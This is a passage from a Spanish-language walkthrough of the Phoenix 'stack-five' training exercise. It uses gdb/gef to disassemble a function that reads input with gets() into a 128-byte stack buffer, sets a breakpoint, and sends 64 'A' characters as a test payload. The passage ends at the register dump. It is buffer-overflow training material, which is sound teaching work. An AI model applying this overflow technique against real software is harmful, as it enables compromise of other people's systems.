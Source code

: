 ```csharp
0x00000000004004d0  __do_global_dtors_aux
0x0000000000400560  frame_dummy
0x000000000040058d  start_level
0x00000000004005a4  main
0x00000000004005d0  __do_global_ctors_aux
0x0000000000400612  _fini
gef➤  
```

**Desensamblar start_level**

Esto nos permite ver cómo se maneja el buffer vulnerable, para desensamblar la funcion lo hacemos con el comando `disass start_level`


```csharp
gef➤  disass start_level
Dump of assembler code for function start_level:
   0x000000000040058d <+0>:	push   rbp
   0x000000000040058e <+1>:	mov    rbp,rsp
   0x0000000000400591 <+4>:	add    rsp,0xffffffffffffff80
   0x0000000000400595 <+8>:	lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>:	mov    rdi,rax
   0x000000000040059c <+15>:	call   0x4003f0 <gets@plt>
   0x00000000004005a1 <+20>:	nop
   0x00000000004005a2 <+21>:	leave  
   0x00000000004005a3 <+22>:	ret    
End of assembler dump.
```

vamos a detener la ejecución justo después de que se lea la entrada: dando un break en la linea **0x00000000004005a1 <+20>:	nop** y despues de enviar el buffer que está en la linea **0x0000000000400595 <+8>:	lea    rax,[rbp-0x80]** esto lo vamos a hacer con el comando `b *0x00000000004005a1`

```csharp
gef➤  b *0x00000000004005a1
Breakpoint 1 at 0x4005a1
```

Ahora ejecutamos el binario con el comando `run < <(python -c 'print "A"*64')` enviando 64 A como payload y vemos la respueta de gdb

```csharp
gef➤  run < <(python -c 'print "A"*64')
Starting program: /opt/phoenix/amd64/stack-five < <(python -c 'print "A"*64')
Welcome to phoenix/stack-five, brought to you by https://exploit.education

Breakpoint 1, 0x00000000004005a1 in start_level ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffe5a0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rbx   : 0x00007fffffffe698  →  0x00007fffffffe89e  →  "/opt/phoenix/amd64/stack-five"
$rcx   : 0x8080808080808080
$rdx   : 0x00007fffffffe5ff  →  0x007ffff7ffb3000a
$rsp   : 0x00007fffffffe5a0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rbp   : 0x00007fffffffe620  →  0x00007fffffffe640  →  0x0000000000000001
$rsi   : 0xfefefefefefefeff
$rdi   : 0x00007fffffffe5e1  →  0x1e00000000000000
$rip   : 0x00000000004005a1  →  <start_level+20> nop 
$r8    : 0x00007fffffffe5a0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r9    : 0xa0a0a0a0a0a0a0a  ("\n\n\n\n\n\n\n\n"?)
$r10   : 0x8080808080808080
$r11   : 0x1               
$r12   : 0x00007fffffffe6a8  →  0x00007fffffffe8bc  →  "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so[...]"
$r13   : 0x00000000004005a4  →  <main+0> push rbp
$r14   : 0x0               
```